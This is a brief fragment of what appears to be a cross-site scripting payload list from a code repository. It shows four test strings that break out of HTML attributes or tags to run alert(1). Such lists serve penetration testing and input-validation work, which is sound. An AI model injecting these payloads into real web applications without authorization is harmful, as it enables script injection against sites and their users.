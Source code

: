 # xss-payload-list

<script>alert(1)</script>
“><script>alert(1)</script>

ds" onload="alert(1)
ds" onload="alert(1)"
